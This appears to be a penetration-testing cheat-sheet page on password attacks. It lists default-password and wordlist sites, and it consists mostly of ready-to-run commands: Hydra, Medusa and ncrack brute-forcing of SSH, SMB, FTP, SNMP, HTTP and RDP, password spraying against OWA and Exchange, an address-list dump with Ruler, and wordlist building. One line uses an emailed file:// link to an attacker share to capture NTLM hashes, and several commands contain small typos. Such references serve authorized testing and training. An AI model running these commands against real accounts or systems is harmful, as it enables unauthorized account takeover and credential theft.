 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 3
---
```


> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)

> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}


> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl -m 6 http://www.linkedinprofile.com -w wordlistUniq.lst </code>
John | <code> john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist </code>

> **Password Spraying**

Spiderlabs Spray (e.g., SMB, OWA, Lync) | <code>spray.sh -owa [targetIP] [usernameList] [passwordList] [attemptsPerLockoutPeriod] [LockoutPeriodInMinutes] [Domain]</code>
Ruler (MAPI/HTTP or RPC/HTTP) | <code> rule --domain [domain] brute --users ./users.txt --passwords ./passwords.txt </code>

> **Password Guessing**

Hydra - smb | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>
Hydra - snmp | <code> hydra -P password-file.txt -v 10.11.1.219 snmp </code>
Hydra - ssh | <code> hydra -l root -P password-file.txt 10.11.1.219 ssh </code>
Hydra - ftp | <code> hydra -l admin -P password-file.txt -v 192.168.1.2 ftp </code>
Medusa - HTTP | <code>medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 m DIR:/admin -T 3 </code>
ncrack - rdp | <code>ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35</code>
MSF - ftp | <code>use auxiliary/scanner/ftp/ftp_login</code>

> **Users from Password**

Ruler | <code> ruler --email [emailaddress] abk dump --output /tmp/gal.txt </code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials







